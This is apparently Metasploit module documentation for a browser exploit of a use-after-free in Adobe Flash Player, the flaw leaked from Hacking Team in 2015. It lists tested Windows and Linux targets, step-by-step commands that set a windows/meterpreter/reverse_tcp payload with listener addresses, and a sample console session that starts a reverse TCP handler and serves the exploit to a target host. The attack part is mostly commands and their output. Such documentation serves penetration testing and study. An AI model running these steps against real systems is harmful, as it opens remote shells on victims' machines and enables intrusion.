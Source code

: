 ## Description

This module exploits an use after free on Adobe Flash Player. The vulnerability, discovered by Hacking Team and made public as part of the July 2015 data leak, was described as an Use After Free while handling ByteArray objects. This module has been tested successfully on:
Windows 7 SP1 (32-bit), IE11 and Adobe Flash 18.0.0.194,
Windows 7 SP1 (32-bit), Firefox 38.0.5 and Adobe Flash 18.0.0.194,
Windows 8.1 (32-bit), IE11 and Adobe Flash 18.0.0.194,
Windows 8.1 (32-bit), Firefox and Adobe Flash 18.0.0.194, and
Linux Mint "Rebecca" (32 bits), Firefox 33.0 and Adobe Flash 11.2.202.468.

## Verification Steps

1. Do: ```use exploit/multi/browser/adobe_flash_hacking_team_uaf```
2. Do: ```set payload windows/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set SRVHOST [IP]```
3. Do: ```set URIPATH / [PATH]```
4. Do: ```run```

## Sample Output

```
msf > use exploit/multi/browser/adobe_flash_hacking_team_uaf
msf exploit(adobe_flash_hacking_team_uaf) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(adobe_flash_hacking_team_uaf) > set lhost 172.16.178.160
lhost => 172.16.178.160
msf exploit(adobe_flash_hacking_team_uaf) > set srvhost 172.16.178.160
srvhost => 172.16.178.160
msf exploit(adobe_flash_hacking_team_uaf) > set uripath /
uripath => /
msf exploit(adobe_flash_hacking_team_uaf) > show options

Module options (exploit/multi/browser/adobe_flash_hacking_team_uaf):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Retries  true             no        Allow the browser to retry the module
   SRVHOST  172.16.178.160   yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH  /                no        The URI to use for this exploit (default is random)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.178.160   yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf exploit(adobe_flash_hacking_team_uaf) > exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.16.178.160:4444 
[*] Using URL: http://172.16.178.160:8080/
[*] Server started.
msf exploit(adobe_flash_hacking_team_uaf) > [*] 172.16.178.203   adobe_flash_hacking_team_uaf - Gathering target information for 172.16.178.203
[*] 172.16.178.203   adobe_flash_hacking_team_uaf - Sending HTML response to 172.16.178.203
```

